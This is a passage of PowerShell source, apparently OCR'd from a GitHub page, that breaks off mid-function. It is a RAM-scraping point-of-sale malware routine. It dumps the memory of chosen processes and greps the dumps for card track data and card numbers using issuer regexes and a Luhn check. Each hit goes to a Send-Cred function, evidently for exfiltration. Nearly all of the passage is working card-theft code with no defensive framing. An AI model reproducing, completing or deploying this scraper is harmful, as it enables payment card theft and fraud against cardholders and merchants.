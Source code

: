 function main {

    # save mem dumps to present working directory
    $dest = $PWD
    $cardnumbers = @()
    
    Write-Log "Starting Scraper"
    while (1) {
        if ($User) {
            # we use wmi b/c its a v2 safe way of getting process owner
            $process = (Get-WmiObject win32_process | where{$_.ProcessName -match $Proc})
            $procs = @()
            foreach ($p in $process) {
                foreach ($u in $User) {
                    if ($p.getowner().User -eq $u) {
                        $p = Get-Process -Id $p.ProcessId
                        $procs += $p
                    }
                }
            }
        }
        else {
            $Procs = Get-Process $Proc -ErrorAction SilentlyContinue #| Select -Property Responding
        }
        if ($Procs) {
            Write-Log "Target process is running. Dumping memory..."
            foreach ($p in $Procs) {
                Out-Minidump -DumpFilePath $dest
            }
            $dumps = Get-ChildItem -Path $dest -Filter *.dmp | select FullName
            foreach ($d in $dumps) {
                Write-Log "Scraping memory dump: $($d.FullName)"
                if ($NumsOnly) {
                    # find plain nums - WARNING: could result in a lot of false postives      
                    $nums = (Select-String -Path $d.FullName -Pattern "(4[0-9]{15}|5[1-5][0-9]{14}|3[47][0-9]{13}|6(?:011|5[0-9]{2})[0-9]{12})" | foreach {$_.matches} | Select-String -NotMatch "(\d)\1{5,}")
                }
                else {
                    # we default to finding track data  
                    $nums = (Select-String -Path $d.FullName -Pattern "\%B[\d]{16}[\^\w\s\/\d]+\?" | foreach {$_.matches})       
                }
        
                foreach ($td in $nums) {
                    if ($cardnumbers -notcontains $td.Value) {
                        if ($NumsOnly) {
                            if ($Bin) {
                                if ($td -match $Bin) {
                                    Write-Log "CARD NUM: $td" "green"
                                    Send-Cred($td)
                                }
                            }
                            else {
                                # Luhn test our result before logging
                                if (Test-LuhnNumber([int[]][string[]][char[]]($td.Value))) {
                                    Write-Log "POSSIBLE CARD NUM: $td" "green"